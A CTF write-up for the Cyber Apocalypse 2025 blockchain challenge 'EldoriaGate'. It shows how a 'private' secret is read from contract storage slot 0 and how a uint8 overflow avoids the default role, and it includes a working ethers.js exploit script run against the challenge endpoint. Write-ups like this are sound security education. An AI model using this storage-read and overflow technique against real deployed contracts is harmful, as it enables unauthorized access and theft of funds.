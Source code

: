 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | EldoriaGate Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: EldoriaGate
tags: ""
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## EldoriaGate
> Solved by Starry-Lord


    contract EldoriaGateKernel {
        bytes4 private eldoriaSecret;
        ...
    }

First I thought we needed to Bruteforce the secret, but then I realised the value was getting stored on-chain, and as we all know, on-chain storage is public [**😉**](https://emojipedia.org/winking-face), so we could just extract it from the creation of the contract’s transaction.

Since it’s the first declared variable, it is stored at slot 0 on the EldorianGateKernel contract address.

With that we managed to authenticate, but we still needed to become the “Usurper” which is basically not receiving any role, but the contract assigne the ROLE_SERF by default:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
                ...
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                ...
        }

But we can break it by passing the contribution value 255, which is an 8-bit value. The key here is that shifting left an 8-bit value by 256 brings us back to 0, thus allowing us to not get a default role:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
            assembly {
                mstore(0x00, _unknown)
                mstore(0x20, villagers.slot)
                let villagerSlot := keccak256(0x00, 0x40)
                mstore(0x00, _unknown)
                id := keccak256(0x00, 0x20)
                sstore(villagerSlot, id)
                let storedPacked := sload(add(villagerSlot, 1))
                let storedAuth := and(storedPacked, 0xff)
                if iszero(storedAuth) { revert(0, 0) }
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                let packed := or(storedAuth, shl(8, roles))
                sstore(add(villagerSlot, 1), packed)
        }
    }

solve.js with ethers.js v5:


    const { ethers } = require("ethers");
    
    const RPC_URL = "http://94.237.58.78:50156";
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    
    // CONFIGURATION
    const TARGET_ADDRESS = "0x89B1908C814588a24269cD14409ba6b4B15a709B"; // EldoriaGate
    const PLAYER_PRIVATE_KEY = "0x63ddf21f62799265b687cd70c91065c94b75aa8b9aab40d2f122c14dc0513c32";
    
    // CONTRACT ABIs
    const EldoriaGateABI = [
      "function enter(bytes4 passphrase) external payable",
      "function kernel() public view returns (address)"
    ];
    
    // Setup
    const player = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    const gate = new ethers.Contract(TARGET_ADDRESS, EldoriaGateABI, player);
    
    async function main() {
      console.log("[*] Getting EldoriaGateKernel address...");
      const kernelAddress = await gate.kernel();
      console.log("[+] Kernel address:", kernelAddress);
    
      console.log("[*] Reading storage slot 0 from kernel...");
      const rawSlot = await provider.getStorageAt(kernelAddress, 0);
      console.log("[+] Raw slot 0 data:", rawSlot);
    
      // Extract last 4 bytes (right-aligned)
      const guess = "0x" + rawSlot.slice(66 - 8);
      console.log("[+] Interpreted eldoriaSecret:", guess);
    
      console.log("[*] Attempting to call enter() with secret...");
    
      try {
        const tx = await gate.enter(guess, { value: 255 });
        await tx.wait();
        console.log(`\n🎉 [SUCCESS] Authentication passed with secret: ${guess}`);
      } catch (err) {
        const reason = err?.error?.message || err?.reason || "Unknown error";
        console.log(`\n[x] enter(${guess}) failed: ${reason}`);
      }
    }
    
    main().catch(console.error);
    


![](https://i.imgur.com/7P2f4OD.png)


